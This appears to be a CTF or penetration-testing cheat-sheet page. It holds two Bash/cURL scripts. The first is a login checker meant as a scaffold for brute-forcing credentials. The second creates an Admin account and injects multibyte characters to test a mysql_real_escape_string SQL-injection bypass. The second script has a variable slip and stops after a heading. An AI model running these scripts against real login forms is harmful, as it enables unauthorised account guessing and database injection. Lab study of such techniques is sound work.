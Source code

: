 #### Check to see if a user login is correct in a Bash script

The following script can be used to verify that a username and login is correct.
It is meant to be a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash.
It will check the response length characters to see if it is a valid response.  You will need to adjust the expected character count for your application. 
```bash
#!/bin/bash
result=($(curl --data "email=$2&password=$3" "$1" 2>/dev/null | wc -c))
echo $result
if [ "$result" == '0' ]
then
        echo 'zero'
else
        echo 'NOT zero'
fi
```
Here is the script in action:
```bash
$ ./check_user.sh http://10.10.10.10/login.php test@test.com testpassword
0
NOT zero
```

#### Automate user creation and test for mysql_real_escape_string bypass
The following is a basic scaffold for you to build a fit for purpose fuzzer using cURL and Bash.
Here is a bash script I created for a CTF to validate a theory I had about its use of the PHP mysql_real_escape_string method:
```BASH
#!/bin/bash
# Test for mysql_real_escape_string
email=test@test.com
password=1234567890123456789012345678901234567890123456789012345678901234567890123456789
fuzz="뽜’’AA"
name="‘¿’’AA"
ip="10.10.10.10"
echo "Creating User: ${email}"
curl -i -b 'cookies.txt' -c 'cookies.txt' -d "name=${name}&email=${email}&password=${password}&type=Admin" "http://${ip}/index.php" 2>/dev/null
echo " "
echo "============================================"
echo "Login as User"
echo "============================================"
curl -i -c 'cookies.txt' -d "email=${email}&password=${password}&type=Admin" "http://${ip}/index.php" 2>/dev/null  | grep 'location'
echo " "
echo "============================================"
echo "Check user profile with cookie"
echo "============================================"
curl -b 'cookies.txt' "http://${ip}/index.php" -v 2>/dev/null | grep 'td align="center"'
echo " " 
echo "============================================"
echo "Change Name"
echo "============================================"
curl -b 'cookies.txt' -d "name=${fuzz}&type=Admin" "http://${1}/index.php" 
echo " " 
curl -b 'cookies.txt' "http://${ip}/profile.php" 2>/dev/null | grep 'td align="center"'
echo " "
echo " DELETEING COOKIE "
rm cookies.txt
echo "============================================"
echo "Relogin as User - did password change?"
echo "============================================"
```